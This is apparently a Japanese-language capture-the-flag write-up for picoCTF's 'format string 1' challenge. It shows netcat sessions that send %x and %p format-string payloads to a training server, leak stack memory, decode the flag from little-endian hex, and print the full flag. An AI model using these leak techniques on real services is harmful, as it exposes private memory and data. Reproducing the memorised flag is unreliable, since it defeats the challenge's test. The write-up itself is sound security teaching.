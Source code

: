 # format string 1:Binary Exploitation

Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!\
Download the binary [here]().\
Download the source [here]().\
Connect with the challenge instance here: `nc mimas.picoctf.net 49971`

# Solution

secret menuなるものを探せとのことである。とりあえず、`nc mimas.picoctf.net 49971`を実行してみる。
```
$ nc mimas.picoctf.net 49971
Give me your order and I'll read it back to you:
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Here's your order: 402118064318a000146a880a347834fdd41ef064109e606432e4d01fdd41fc0006f6369706d316e34333179373431665f646635337643308d87743072506c797453964341de9641120986432e4d00fdd41fd078257825782578257825782578257825
Bye!
```

いきなり、書式文字列攻撃とみたてて%xを大量に投げたら、途中から%xの16進が連続したので、それまでの部分で何かフラグっぽいものを探す。picoは`70 69 63 6f`なのでこれをヒントに探すと、`6f636970`という部分を発見。リトルエンディアンでフラグが格納されているようだ。ただし、フラグの一部が欠落しているので、入力を`%p`に変えてもう一度実行する。
```
$ nc mimas.picoctf.net 58878
Give me your order and I'll read it back to you:
%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Here's your order: 0x402118(nil)0x71c498968a00(nil)0x6628800xa3478340x7fffe8b2bc100x71c498759e600x71c49897e4d00x10x7fffe8b2bce0(nil)(nil)0x7b4654436f636970
```
14個目あたりにフラグっぽいやつが出てきた。入力を`%14$p%15$p%16$p%17$p%18$p`に変えてフラグを出力させる。
`0x7b4654436f6369700x355f31346d316e340x3478345f333179370x31395f673431665f0x7d653464663533`これが出てきたのでcyberchefに投げる。
From Hexで`{FTCocip5_14m1n44x4_31y719_g41f_}e4df53`と出てきたので、8文字ずつ並べ変える。


`picoCTF{4n1m41_57y13_4x4_f14g_9135fd4e}`


